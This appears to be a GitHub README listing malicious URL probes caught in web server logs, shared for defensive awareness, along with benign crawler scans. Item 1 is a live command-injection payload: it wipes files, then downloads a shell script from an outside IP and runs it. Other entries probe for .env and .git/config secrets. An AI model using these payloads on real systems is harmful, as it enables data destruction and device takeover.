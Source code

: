 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server ( Must add paths on your own ).
## ATTEMPTS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)

2. ../autodiscover/autodiscover.json?@zdi/Powershell

3. ../owa/auth/x.js

4. ../backup/.git/config

5. ../log/.git/config

6. ../doc/.git/config

7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com

8. ../Telerik.Web.UI.WebResource.axd?type=rau

9. ../WebInterface/

10. ../sugar_version.json

11. ../icons/sphere1.png

12. ../static/historypage.js

13. ../cgi-bin/authLogin.cgi

14. ../remote/login

15. ../sitecore/shell/sitecore.version.xml

16. ../js/NewWindow_2_all.js

17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js

18. ../showLogin.cc

19. ../webfig/

20. ../cgi-bin/config.exp

21. ../solr/

22. ../api/session/properties

23. ../.env

24. ../owa/auth/logon.aspx

25. ../Temporary_Listen_Addresses

26. ../ews/exchanges/

27. ../ews/exchange%20/

28. ../ews/autodiscovers/

29. ../autodiscover/autodiscover%20/

30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application

31. ../actuator/health

32. ../+CSCOE+/logon.html

33. ../dana-na/auth/url_default/welcome.cgi

34. ../global-protect/login.esp

```
## Shadow Server Scans ( Unknown Reason ) (shadowserver.org)
```
1. ../vpn/index.html

2. ../geoserver/web/

3. ../.git/config

4. ../favicon.ico
```
## Linkedin Scans ( Not Hacks )
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png

2. ../robots.txt
```

## Google Scans ( Not Hacks )
```
1. ../xmlrpc.php?rsd

2. ../wlwmanifest.xml  ( Microsoft Live Writer )
```
